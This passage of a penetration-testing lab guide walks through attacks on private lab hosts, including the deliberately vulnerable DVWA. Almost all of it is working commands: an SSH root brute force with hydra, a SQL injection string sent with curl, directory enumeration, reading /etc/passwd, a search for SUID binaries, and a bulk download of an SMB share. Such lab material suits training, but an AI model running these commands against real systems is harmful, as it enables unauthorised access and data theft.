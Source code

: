 ## Step 6: Exploitation (REAL ATTACKS)

### SSH Brute Force
```bash
# Create password file
echo -e "toor\nadmin\npassword\nroot" > passwords.txt

# Brute force SSH
hydra -l root -P passwords.txt ssh://172.16.0.20 -t 4
# Will find: root:toor

# Connect with found password
ssh root@172.16.0.20
# Password: toor
# Run: id, whoami, exit
```

### DVWA SQL Injection
```bash
# Login to DVWA first
curl -c cookies.txt -X POST http://172.16.0.30/login.php \
  -d "username=admin&password=password&Login=Login"

# Test SQL injection
curl -b cookies.txt "http://172.16.0.30/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit"
```

### Directory Enumeration
```bash
# Find hidden directories
gobuster dir -u http://172.16.0.30 -w /usr/share/wordlists/dirb/common.txt
```

## Step 7: Post-Exploitation

### On SSH Server (after login with root:toor)
```bash
ssh root@172.16.0.20
# Password: toor

# Look around
cat /etc/passwd
ls /home/
find / -perm -u=s -type f 2>/dev/null
exit
```

### Extract SMB Files
```bash
# Download all files from SMB
smbget -R smb://172.16.0.60/public -U guest%
# or
smbclient //172.16.0.60/public -N -c "prompt OFF; recurse ON; mget *"
```
